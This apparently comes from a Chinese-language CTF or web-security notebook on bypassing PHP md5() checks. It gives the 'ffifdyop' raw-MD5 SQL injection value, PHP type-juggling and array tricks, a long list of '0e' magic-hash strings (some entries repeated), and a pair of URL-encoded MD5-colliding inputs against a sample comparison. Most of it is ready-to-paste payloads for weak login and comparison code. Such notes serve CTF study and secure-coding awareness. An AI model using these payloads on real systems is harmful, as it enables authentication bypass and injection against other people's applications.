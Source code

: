 # 绕过md5()来构造攻击语句
> 利用值：ffifdyop
```sql
select * from 'admin' where password = md5($pass,true)
```
> 这个点的原理是 `ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个通过十六进制转字符串的前几位刚好是 'or'6，而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password=''or'6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过 md5() 函数

# 数字与字符串之间的比较

<img src="./md5和twig/11.png" alt="">

> 上图中执行语句第一个返回的是 true ，第二个返回的是 false，因为 php 把字母开头的转化为整型时会转化为 0，前面数字后面字母的话就只取到第一个字母出现的位置之前 (如：intval('123abd45gf') 结果为 123)

# 数组绕过
> 数组绕过适用于源码中没有判断变量类型或内容，如果加上了过滤函数就不能使用了
> 常见过滤函数如下

```php
ctype_alnum ( string $text ) : bool
// 如果 text 中所有的字符全部是字母和(或者)数字，返回 TRUE 否则返回 FALSE 

is_numeric ( mixed $var ) : bool
// 如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE
```

# 科学计数法绕过
> 绕过 `md5($val1) != md5($val2)`，它的原理为 0e 开头后面都是数字的字符串会被识别为科学记数法

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
240610708 
0e462097431906509019562988736854
314282422 
0e990995504821699494520356953734
571579406 
0e972379832854295224118025748221
903251147 
0e174510503823932942361353209384
1110242161 
0e435874558488625891324861198103
1320830526 
0e912095958985483346995414060832
1586264293 
0e622743671155995737639662718498
2302756269 
0e250566888497473798724426794462
2427435592 
0e067696952328669732475498472343
2653531602 
0e877487522341544758028810610885
3293867441 
0e471001201303602543921144570260
3295421201 
0e703870333002232681239618856220
3465814713 
0e258631645650999664521705537122
3524854780 
0e507419062489887827087815735195
3908336290 
0e807624498959190415881248245271
4011627063 
0e485805687034439905938362701775
4775635065 
0e998212089946640967599450361168
4790555361 
0e643442214660994430134492464512
5432453531 
0e512318699085881630861890526097
5579679820 
0e877622011730221803461740184915
5585393579 
0e664357355382305805992765337023
6376552501 
0e165886706997482187870215578015
7124129977 
0e500007361044747804682122060876
7197546197 
0e915188576072469101457315675502
7656486157 
0e451569119711843337267091732412
QLTHNDT 
0e405967825401955372549139051580
QNKCDZO 
0e830400451993494058024219903391
EEIZDOI 
0e782601363539291779881938479162
TUFEPMC 
0e839407194569345277863905212547
UTIPEZQ 
0e382098788231234954670291303879
UYXFLOI 
0e552539585246568817348686838809
IHKFRNS 
0e256160682445802696926137988570
PJNPDWY 
0e291529052894702774557631701704
ABJIHVY 
0e755264355178451322893275696586
DQWRASX 
0e742373665639232907775599582643
DYAXWCA 
0e424759758842488633464374063001
GEGHBXL 
0e248776895502908863709684713578
GGHMVOE 
0e362766013028313274586933780773
GZECLQZ 
0e537612333747236407713628225676
NWWKITQ 
0e763082070976038347657360817689
NOOPCJF 
0e818888003657176127862245791911
MAUXXQC 
0e478478466848439040434801845361
MMHUWUV 
0e701732711630150438129209816536
```
> MD5 和双 MD5 以后的值都是 0e 开头的

```
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
7r4lGXCH2Ksu2JNT3BYM
```

> 0e 开头的 md5 值也为 0e 开头：`0e215962017`

# md5 碰撞
> 利用 fastcoll 进行 md5 碰撞，生成两个字面值不同但 md5 相同的字符串

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!);
}

Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

# 拓展链接
> [链接地址1](https://binlep.github.io/2020/02/28/%E3%80%90Web%20%E7%AC%94%E8%AE%B0%E3%80%91md5%20%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)
> [链接地址2](https://blog.csdn.net/LYJ20010728/article/details/116779357)